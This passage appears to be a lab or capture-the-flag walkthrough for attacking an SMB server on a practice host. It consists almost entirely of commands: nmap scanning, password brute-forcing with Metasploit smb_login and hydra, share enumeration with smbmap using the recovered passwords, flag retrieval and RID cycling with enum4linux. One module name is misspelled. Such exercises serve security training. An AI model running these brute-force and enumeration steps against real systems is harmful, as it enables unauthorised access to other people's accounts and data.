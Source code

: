```bash
smb> cd secret
smb> get flag
smb> exit
john@kali> cat flag

```

#### Dictionary attack

```bash
john@kali> ip a
john@kali> ping 192.235.130.3
john@kali> nmap 192.235.130.3
john@kali> nmap 192.235.130.3 -p 139,445 -sV

# 1. What is the password of user “jane” required to access share “jane”?
#    Use smb_login metasploit module with password wordlist usr/share/wordlists/metasploit/unix_passwords.txt
john@kali> msfconsole
msf5> use scanner/smb/smb_login
msf5> set rhosts 192.235.130.3
msf5> set smbuser jane
msf5> set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
msf5> run
msf5> exit

# 2. What is the password of user “admin” required to access share “admin”?
#    Use hydra with password wordlist: /usr/share/wordlists/rockyou.txt
john@kali> hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 192.235.130.3 smb

# 3. Which share is read only? Use smbmap with credentials obtained in question 2.
john@kali> smbmap -H 192.235.130.3 -u admin -p password1

# 4. Is share “jane” browseable? Use credentials obtained from the 1st question.
john@kali> smbmap -H 192.235.130.3 -u jane -p abc123

# 5. Fetch the flag from share “admin”
john@kali> smbclient -U admin \\\\192.235.130.3\\admin
smb> cd hidden
smb> get flag.tar.gz
smb> exit
john@kali> tar -xvf flag.tar.gz
john@kali> cat flag

# 6. List the named pipes available over SMB on the samba server?
#    Use pipe_auditor metasploit module with credentials obtained from question 2.
john@kali> msfconsole
msf5> use scanner/smb/pip_auditor
msf5> set rhosts 192.235.130.3
msf5> set smbuser admin
msf5> set smbpass password1
msf5> run
msf5> exit

# 7. List sid of Unix users shawn, jane, nancy and admin respectively
#    by performing RID cycling  using enum4Linux with credentials obtained in question 2.
john@kali> enum4linux -u admin -p password1 -r 192.235.130.3
```
